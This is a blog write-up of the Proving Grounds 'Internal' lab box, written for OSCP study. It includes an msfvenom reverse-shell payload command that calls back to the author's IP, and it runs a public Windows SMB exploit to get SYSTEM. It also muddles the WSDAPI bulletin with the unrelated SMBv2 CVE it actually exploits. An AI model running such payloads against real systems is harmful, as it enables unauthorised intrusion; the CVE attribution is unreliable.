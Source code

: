 ```yaml
---
layout: writeup
title: Internal - Proving Grounds
date: 2024-07-28 13:32:20 +0300
description: A Writeup of the Internal Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, Buffer Overflow]
---
```


Alright, here's a writeup of Internal from [Proving Grounds](https://www.offsec.com/labs/), and it is on both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#), as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). As usual we get started with an nmap scan which reveals:

```
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Interesting that there's not even a web port here to fake us out. It also seems like there's not a lot to work with here, so hopefully the foothold comes up pretty quickly. I get started with `smbclient -L \\\\192.168.171.40\\ -N`, but we're not able to connect because we have `no workgroup available`. We are able to connect with rpcclient, but we can't seem to run any commands because we get the output: `Error was NT_STATUS_ACCESS_DENIED`. I ran enum4linux here as well, but nothing of note showed up. The only thing left really was port 5357 and brute forcing. 

When you Google "port 5357 exploit" (not even including wsdapi), you get [this Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063). The subheader for this link says Vulnerability in Web Services on Devices API Could Allow Remote Code Execution." That could be a pretty big sign, and it also mentions CVE-2009-2512. So we can google that and see what we can find. There's a few options here. There's [this](https://www.exploit-db.com/exploits/40280) exploit from exploit-db, but it's from 2016, and searching for something newer might be a little easier. I found [this](https://github.com/sec13b/ms09-050_CVE-2009-3103) github repo which has two versions of an exploit from the same vulnerability, one apparently written in python2 and one in python3, both evidently adapted from the exploit-db one. 

I decide to go with the python3 one [here](https://github.com/sec13b/ms09-050_CVE-2009-3103/blob/main/MS09_050_2.py), but they all have a section for shell code, and you can see at the comment the command run to generate it. 

![Internal1.png](/assets/images/Internal/Internal1.png){: .responsive-image}

I change the command for my own purposes: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=445  EXITFUNC=thread  -f python -v shell`. 

![Internal2.png](/assets/images/Internal/Internal2.png){: .responsive-image}

And then paste my own output into the exploit code. From there it's as simple as running: `python3 exploit.py $targetIP`. Initially I get an error:

```
ERROR: Could not find a version that satisfies the requirement smb (from versions: none)
ERROR: No matching distribution found for smb
```

But this can be overcome with `pip3 install pysmb`. After that, I get a hit on my reverse shell:

![Internal3.png](/assets/images/Internal/Internal3.png){: .responsive-image}

And it hangs and dies. Maybe I'll go back to the exploit-db one... Wait. I see I used msfvenom for a meterpreter shell when I attempt to run the same command again. And I do, and it hangs again. At this point I go back to the exploit-db one, but it's in python2, which doesn't seem to accept that I have pysmb installed, and I can't seem to install it. 

I think a little bit more about the code and notice this section.

![Internal4.png](/assets/images/Internal/Internal4.png){: .responsive-image}

It specifies metasploit, and that makes sense because the shell code given is a meterpreter shell which requires metasploit. But I don't want to use meterpreter or metasploit because I am studying for the OSCP exam, and you can only use Metasploit on one box, so I'd like to save it as best as I can. So I try to remove this code and run it without, but that doesn't work. In fact, it doesn't even establish a connection, so I think I must be going backwards. 

Instead, I decide to try to use metasploit, but only `exploit/multi/handler` which we can use on the exam. I put the `stager_sysenter_hook` code back where it was in the exploit, and upload the payload, LHOST, and LPORT options for the msf handler, and then run the code again. 

![Internal5.png](/assets/images/Internal/Internal5.png){: .responsive-image}

And voila! It looks like we already have `NT Authority\System` privilges so we're done here. 

Lessons learned: Not a ton. It's easy to get stumped at the beginning here when there's nowhere to look but the 5357 port, and the vulnerability could easily be missed if you are just looking at exploit-db. I guess I learned that sometimes only msf handler will actually catch a shell, so it will be good to keep on eye on that in the future. 

Remediation Steps: Upgrading the version of this API as per the recommendations on the [Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063). There weren't any other steps in this box. 

Side note: When I was looking up how others did the box, I saw that I was not the only one to accidentally use meterpreter shell code the first time around, but that author did not try again and still believed that maybe it would work with a regular shell from msfvenom. I actually didn't find any writeups at all that used a different handler; they all used msf, and most of the writeups actually used a Metasploit exploit, which of course would burn their one use on the actual exam. Apparently this is because the actual writeup from Offsec uses Metasploit which seems kind of dumb to me. It just kind of defeats the purpose. 

Future goal: It would be kind of cool to write an exploit that actually works with a non-msf handler... Unfortunately I can't spend the time right now with my exam coming up. 